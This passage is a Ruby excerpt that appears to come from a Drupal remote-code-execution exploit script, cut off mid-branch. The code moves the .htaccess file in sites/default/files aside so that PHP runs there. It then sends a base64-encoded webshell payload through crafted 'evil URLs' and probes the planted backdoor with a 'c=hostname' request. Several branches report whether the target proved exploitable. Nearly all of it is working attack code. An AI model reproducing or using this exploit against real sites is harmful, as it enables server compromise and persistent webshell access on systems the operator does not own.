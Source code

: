 ```ruby
  # By default, Drupal v7.x disables the PHP engine using: ./sites/default/files/.htaccess
  # ...however, Drupal v8.x disables the PHP engine using: ./.htaccess
  if path == "sites/default/files/"
    puts action("Moving : ./sites/default/files/.htaccess")
    # PHP engine is disabled in Drupal v7.x so we have to enable it by moving the ./sites/default/files/.htaccess to .htaccess-bak so the .htaccess would be disregarded enabling the PHP engine once again!
    # and then EXECUTES the '<webshellpath>.php' that contains the actual webshell content. Then stores it to 'cmd' variable.
	cmd = "mv -f #{path}.htaccess #{path}.htaccess-bak; #{cmd}" 
  end

  # Generate evil URLs
  # In this case, 'cmd' is the one that gets sent to the webserver instead of the `shell.php` webshell. This is the base64 encoded webshell content.
  url, payload = gen_evil_url(cmd, $element)
  # Make the request
  response = http_request(url, "post", payload, $session_cookie) # 'payload' is the trigger to execute the 'shell.php' once it gets uploaded.
  # Check result
  if response.code == "200" and not response.body.empty?
    # Feedback
    result = clean_result(response.body)
    puts success("Result : #{result}") if not result.empty?

    # Test to see if backdoor is there (if we managed to write it)
    response = http_request("#{$target}#{webshellpath}", "post", "c=hostname", $session_cookie)
    if response.code == "200" and not response.body.empty?
      puts success("Very Good News Everyone! Wrote to the web root! Waayheeeey!!!")
      break

    elsif response.code == "404"
      puts warning("Target is NOT exploitable [2-4] (HTTP Response: #{response.code})...   Might not have write access?")

    elsif response.code == "403"
      puts warning("Target is NOT exploitable [2-3] (HTTP Response: #{response.code})...   May not be able to execute PHP from here?")

    elsif response.body.empty?
      puts warning("Target is NOT exploitable [2-2] (HTTP Response: #{response.code})...   Got an empty response back")

    else
      puts warning("Target is NOT exploitable [2-1] (HTTP Response: #{response.code})")
      puts verbose("response.body: #{response.body}") if $verbose
    end

  elsif response.code == "500" and not response.body.empty?
    puts warning("Target MAY of been exploited... Bit of blind leading the blind")
    break

  elsif response.code == "404"
    puts warning("Target is NOT exploitable [1-4] (HTTP Response: #{response.code})...   Might not have write access?")

  elsif response.code == "403"
    puts warning("Target is NOT exploitable [1-3] (HTTP Response: #{response.code})...   May not be able to execute PHP from here?")

  elsif response.body.empty?
    puts warning("Target is NOT exploitable [1-2] (HTTP Response: #{response.code}))...   Got an empty response back")
```